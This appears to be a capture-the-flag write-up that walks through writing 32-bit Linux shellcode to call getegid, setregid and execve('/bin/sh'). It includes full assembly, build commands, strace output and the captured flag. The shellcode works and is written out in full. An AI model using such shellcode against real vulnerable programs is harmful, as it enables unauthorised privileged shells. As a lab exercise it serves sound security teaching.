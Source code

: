 # Writing Shellcode
This is going to be an overview of a handful of the shellcode-based challenges
rather than for just one, as they're similar and more of a stepping stone to 
controlling processes than the be-all and end-all. 

The general goal of these challenges is to write shellcode to
result in the following:
```c
int egid = getegid();
setregid(egid, egid);
execve('/bin/sh', 0, 0);
```

## Compiling
```make
make 32:
        gcc -m32 -c -o shellcode.o shellcode.S && \
        gcc -o shellcode shellcode.o -m32 && \
        objcopy -S -O binary -j .text shellcode.o shellcode.bin

make 64:
        gcc -m64 -c -o shellcode.o shellcode.S && \
        gcc -o shellcode shellcode.o -m64 && \
        objcopy -S -O binary -j .text shellcode.o shellcode.bin
```

The binary took `shellcode.bin` and used it to run our code, and then we had a privileged shell
that would allow us to get the flag. 

# 32bit
## shellcode-32
For this challenge, we just had to write any 32bit shellcode that would accomplish the goal. 
All this required was the general system call calling conventions. THe first call is the 
easiest as it doesn't have any arguments. We just have to get the call number into %eax
and then use `int 0x80` to make the call. 

```gas
#include <sys/syscall.h>

.globl main
.type main, @function

#include <sys/syscall.h>

.globl main
.type main, @function

main:
    // getegid()
    mov $SYS_getegid, %eax
    int $0x80
```

When calling `setregid()` we have to pass the result of the previous call as
arguments. In IE32 the first few arguments are passed in `%ebx`, `%ecx`, and `%edx`. As usual, the
result of the previous call is in `%eax`. 

```gas
    // setregid(getegid(), getegid())
    mov %eax, %ebx
    mov %eax, %ecx
    mov $SYS_setregid, %eax
    int $0x80
```

When calling `execve` we need to input our string. To do this, the string has to be 
somewhere in memory. The easiest way to do that is to push it onto the stack. As we do this,
however, we need to keep in mind the length of the string. We push 4 bytes onto the stack at
one time, and our string is only 7 bytes. In order to rectify this, we can add an additional 
`/` to the beginning of the string to pad it out to 8 bytes without changing how it will run. 
We also need to push our null byte. 

```gas
    // ececve("/bin/sh", 0, 0)
    push $0
    push $0x68732f6e
    push $0x69622f2f
    mov $SYS_execve, %eax
    mov %esp, %ebx
    mov $0, %ecx
    mov $0, %edx
    int $0x80
```

After we compile our code, we can use `strace` to make sure that functions
are being called the way we want them to. 

```
$ strace ./shellcode
...
getegid()                               = 1019
setregid(1019, 1019)                    = 0
execve("//bin/sh", NULL, NULL)          = 0
...
```

### Full Script + Solving
```gas
#include <sys/syscall.h>

.globl main
.type main, @function

main:
    // getegid()
    mov $SYS_getegid, %eax
    int $0x80

    // setregid(getegid(), getegid())
    mov %eax, %ebx
    mov %eax, %ecx
    mov $SYS_setregid, %eax
    int $0x80

    // ececve("/bin/sh", 0, 0)
    push $0
    push $0x68732f6e
    push $0x69622f2f
    mov $SYS_execve, %eax
    mov %esp, %ebx
    mov $0, %ecx
    mov $0, %edx
    int $0x80
```
```
$ ./shellcode-32
Reading shellcode from shellcode.bin

$ cat flag
cand{execve_bin_sh}
```


